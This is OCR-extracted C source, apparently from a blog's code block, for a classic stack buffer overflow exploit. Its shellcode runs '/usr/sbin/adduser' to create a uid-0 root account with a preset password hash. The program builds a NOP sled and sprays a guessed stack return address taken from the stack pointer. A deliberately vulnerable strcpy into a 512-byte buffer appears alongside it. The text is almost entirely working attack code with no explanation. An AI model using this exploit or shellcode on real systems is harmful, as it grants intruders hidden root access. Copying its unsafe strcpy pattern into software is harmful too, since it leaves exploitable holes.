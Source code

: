     "\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\x94\xff\xff\xff\x2f\x75"
    "\x73\x72\x2f\x73\x62\x69\x6e\x2f"
    "\x61\x64\x64\x75\x73\x65\x72\x23"
    "\x2d\x75\x23\x30\x23\x2d\x6f\x23"
    "\x2d\x67\x23\x72\x6f\x6f\x74\x23"
    "\x2d\x70\x23\x24\x31\x24\x37\xcf"
    "\x76\xd9\x4c\x4b\xcf\xb5\x24\x67"
    "\x53\x55\x4b\x47\x36\x52\x41\x4c"
    "\x7a\x52\x41\x38\x72\x79\x52\x4f"
    "\x63\x54\x73\x47\x30\x23\x72\x75"
    "\x74\x23";

unsigned long getESP(void) {
    __asm__("movl %esp,%eax");
}

void calc(char *str) {
    int i, j = 0;
    char bb[512];
    strcpy(bb, str);
    i = j;
}

int main(int argc, char *argv[]) {
    char *buff, *tmp;
    int offset = DEFAULT_OFFSET, buffs = DEFAULT_BUFFER, i;
    long adr, *adr_pointer;

    if(argc > 1)
        offset = atoi(argv[1]);
    if(argc > 2)
        buffs = atoi(argv[2]);

    buff = malloc(buffs);    // Reserve memory on the heap

    adr = getESP() - offset;
    tmp = buff;
    adr_pointer = (long*) tmp;

    // Fill the entire buffer with the guessed address
    for(i = 0; i < buffs; i += 4)
        *(adr_pointer++) = adr;

    // Fill the first half with NOPs
    for(i = 0; i <= buffs / 2; i++)
        buff[i] = NOP;

    tmp = buff + ((buffs / 2) - (strlen(shellcode) / 2));
    for(i = 0; i < (int)strlen(shellcode); i++)
        *(tmp++) = shellcode[i];

    buff[buffs - 1] = '\0';

    /*calc(buff);*/

    printf("%s", buff);
    fflush(stdout);

    return 0;
}
{% endhighlight %}


